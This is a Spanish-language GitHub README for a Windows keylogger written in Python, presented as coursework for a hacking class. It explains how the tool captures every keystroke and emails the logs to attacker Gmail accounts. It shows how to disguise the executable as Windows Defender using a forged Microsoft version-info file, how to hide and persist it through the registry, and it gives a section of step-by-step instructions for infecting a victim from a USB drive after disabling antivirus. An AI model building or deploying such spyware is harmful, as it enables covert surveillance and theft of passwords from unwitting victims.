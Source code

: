 # Keylogger para Windows - Python
__Actual:__  `v2.1`

__Documentación actualizada:__ `24-04-2020`


__Nota importante:__ Esta herramienta tiene como proposito general y de uso exclusivo para aprendizaje, se creó como parte de un curso Online de hacking de "Seguridad de sistemas informáticos", no me hago responsable de un posible mal uso de ésta herramienta.

Las razones del uso de un Keylogger son para fines de seguridad de una empresa, ya sea que estén viendo qué está haciendo el personal, cómo interactúan sus personas en las computadoras o que los atacantes intenten obtener información confidencial, como información de inicio de sesión u otros datos confidenciales. Este programa simplemente toma cada pulsación de tecla ingresada en el teclado y luego envía el archivo de registro por correo electrónico cada 2 horas.

## Carpeta Principal
![Archivos](https://i.imgur.com/fvVMi8N.png)
- `icon.ico`    = Icono Windows Defender
- `KeyloggerWindows.py` = Código fuente del Keylogger
- `LICENCE` = Licencia 
- `README.md`= Documentación
- `StartUp.reg` = Modifica el Registro de Windows
- `version.txt` = Información detalla de conversión `.py` a `.exe`
- `WindowsDefender.exe` = Keylogger Compilado 

## Caracteristicas
- __Envío por Gmail:__ Envía el registro de teclas por Gmail.
- __Recibe datos por varios correos:__ Hay una posibilidad de agregar 1 o más correos, y así el registro de notas se envíe a varios correos a la vez,
- __Verifica conexión a internet:__ El keylogger verifica si la computadora está conectada a internet, y si ese es el caso envía los datos, en caso contrario, no lo envía,
- __Tiempo de envío personalizado:__ Usted puede elegir un intervalo de tiempo personalizado, en la cual desea que se envíe los archivos, `No se recomienta que sean muy seguidos, ya que el servidor de mensajería de google, bloqueará la cuenta por 1 día,  por eso el tiempo de intervalo de envío escogida es de 2 Horas, éstas horas se cuentan despues de iniciar el script`
- __Obtención de datos a prueba de errores:__ En otros keylogger al momento de enviar el `log.txt`, éste proceso demora entre 3 a 5 segundos, y en ese transcurso de tiempo el keylogger no obtiene el registro de teclas, en éste keylogger, ese error está solucionado, obteniendo siempre los datos
- __Segundo plano:__ Este keylogger, al ejecutarse en la linea de comando, sí mostrará una consola, solo por debuggeo, pero al ser convertida a `*.exe` se utilizara un comando para que ésta se ejecute en segundo plano.
- __Disfraz:__ Al momento de ser convertido de `*.py a *.exe`. El Keylogger será disfrazado como `WindowsDefender.exe` con el ícono y la información del programa.
- __Oculto:__ El Keylogger al iniciar se copia (Solo si ya está en un archivo *exe) a la carpeta `"C:\Users\Public\Security\Windows Defender"` , y en esa carpeta encuentras el archivo `log.txt`.
- __Iniciar automaticamente con el sistema:__ Se encuentra un archivo llamado `StartUp.reg`, la cual al ejecutarlo, ésta escribe el registro y permite que el keylogger se ejecute al iniciar sesión.
- __Segundo Gmail en caso de Error:__ En casó el correo principal sea bloqueada o tenga x problemas, se usará un segundo correo.


## Caracteristicas en futuras actualizaciones: 
- __Conexión a una base de datos MySQL:__ Los datos recopilados serán enviados por una conexión a una base de datos en vez de por mensajes.  
- __Soporte de envió a otros buzones de correo:__ Se insertará un soporte para poder usar Outlook, yahoo u otros servicios de correo 
- __Conexión FTP:__ Envía el archivo `log.txt` vía FTP.
- __Envía datos mediante FTP:__ enviará documentos, fotos y videos mediante una conexión FTP, en segundo plano.

## Uso de Recursos de la PC
El programa se repite 2 veces ya que ésta utiza 2 hilos de ejecución
![Uso del CPU y RAM](https://i.imgur.com/xMRxzX3.png)


# Proceso de preparación:
Requerimiento de paquetes de `Python3`:
- `import pynput`
- `import getuser`
- `import datetime`
- `import os`
- `import time`
- `import yagmail`
- `import socket`
- `import threading`

## Pasos para elegir su correo
1. Es de suma urgencia habilitar el acceso a apps menos seguras de google, la cual lo puedes hacer desde éste [link](https://myaccount.google.com/lesssecureapps).  `En caso no lo habilites, el keylogger no podrá iniciar sesión en su Gmail`
2. Use  `git clone https://github.com/SebastianEPH/Keylogger-py.git` para descargar el repositorio en su computadora.

3. Abra el archivo `KeyloggerWindows.py` en su editor de texto.
4. Busque la función `SendLog()` y ahí encontrará las siguientes lineas de código, las cuales debe modificar, el correo primario remitente, el correo segundario remitente y el o los correos receptores.

````py
# Correo de envío [Principal]      <=> Se enviará 
    sender_email_P       = "Send123@gmail.com"   # <<== Cambia éste correo
    sender_password_P    = "contraseña"          # <<== Contraseña del correo 

    # Correo de envío [Segundaria]     <=> Solo si hay algún problema de envío con el correo Principal
    sender_email_S       = "Sendabc@gmail.com"   # <<== Cambia éste correo
    sender_password_S    = "contraseña"          # <<== Contraseña del correo 

    # Correo o correos que recibirán el registro de datos `log.txt`
    receiver_email   = ["Recibe1@gmail.com", "Recibe2@hotmail.com", "Recibe3@yahoo.com"] # MultiCorreo
  # receiver_email   = ["correo@gmail.com"]  # SingleCorreo
````

# Proceso de conversión: `*.py a *.exe`
Se utilizará `pyinstaller`
1. En la carpeta principal encontrará dos archivos, uno llamado `icon.ico` y el otro `version.txt`, éstos 2 archivos son importantes para la conversión del `*.py a *.exe`.
    - `icon.ico` = El icono que tendrá el keylogger al ser convertido
    - `version.txt` = Información detallada del keyloger.
    
    Ambos archivos son importantes para ocultar el `keylogger` o tratar de hacerlo pasar cómo un programa que no es, así como la siguiente imagen:

    ![Imagen1](https://i.imgur.com/4ytoK3h.png)
    ![Imagen2](https://i.imgur.com/1Dj2Tat.png)

    Toda esa información puede ser modificada en el archivo de la plantilla `version.txt`
2. __Disfraz _[Información]_:__ El el siguiente archivo `version.txt`, puedes modificar la información del `*.exe` la cual se supone que de ser creible.
````t
VSVersionInfo(
  ffi=FixedFileInfo(
    filevers=(6, 1, 7601, 17514),
    prodvers=(6, 1, 7601, 17514),
    mask=0x3f,
    flags=0x0,
    OS=0x40004,
    fileType=0x1,
    subtype=0x0,
    date=(0, 0)
    ),
  kids=[
    StringFileInfo(
      [
      StringTable(
        u'040904B0',
        [StringStruct(u'CompanyName', u'Microsoft Corporation'),
        StringStruct(u'FileDescription', u'Windows Security Health Host Key'),
        StringStruct(u'FileVersion', u'6.1.7601.17514 (win7sp1_rtm.101119-1850)'),
        StringStruct(u'InternalName', u'Windows Defender'),
        StringStruct(u'LegalCopyright', u'\xa9 Microsoft Corporation. All rights reserved.'),
        StringStruct(u'OriginalFilename', u'SecurityHealthHostKey.exe'),
        StringStruct(u'ProductName', u'Microsoft\xae Windows\xae Operating System'),
        StringStruct(u'ProductVersion', u'6.1.7601.17514')])
      ]), 
    VarFileInfo([VarStruct(u'Translation', [1033, 1200])])
  ]
)
````
3. __Conversión final:__
Mediante Consola debe dirigirse a la carpeta principal.
Los requisitos es tener instalada la librería `pyinstaller`, porfavor mire un tutorial antes de hacer éste proceso, la linea de comando recomendada es la siguiente:

    ````r
    pyinstaller --clean   --distpath "Keylogger Terminado" -F --windowed --icon icon.ico --version-file version.txt KeyloggerWindows.py
    ````

# ¿Cómo infecto a la victima?
![Final files](https://i.imgur.com/7GJz3De.png)
- Usten tendrá al finalizar 2 archivos:
- El archivo llamado `WindowsDefender.exe` es el keylogger.
- El archivo llamado , modifica el registro de windows, y hace que el keylogger se ejecute siempre al iniciar el usuario.

## Procedimiento de infección:
- Usten guardará esos archivos en un USB
- Es necesario desactivar el antivirus o agregar una exclusión en al siguiente ruta: `"C:\Users\Public\Security\Windows Defender"`
- Lo siguiente es ejecutar el archivo `WindowsDefender.exe` en el USB, el keylogger se replicará en la siguiente ruta `"C:\Users\Public\Security\Windows Defender"`, Se recomienda no sacar el USB al instante ya que el keylogger se estará replicando enla ruta.
- Lo siguiente es darle 2 click al archiv `StartUp.reg`, y ésto hará que el registro de windows sea modificado y el keylogger se ejecute 
- __Nota:__ No hay un orden fijo, usted puede ejecutar primero el archivo `WindowsDefender.exe` cómo el archivo `StartUp.reg` y  ésto no causará ningún problema.


<!-- Creador  -->
---
## By SebastianEPH
- [Github](https://github.com/SebastianEPH)
- [Facebook](https://www.facebook.com/SebastianEPH)
- [Linkedin](https://www.linkedin.com/in/sebastianeph/)
- [Telegram](https://t.me/sebastianeph)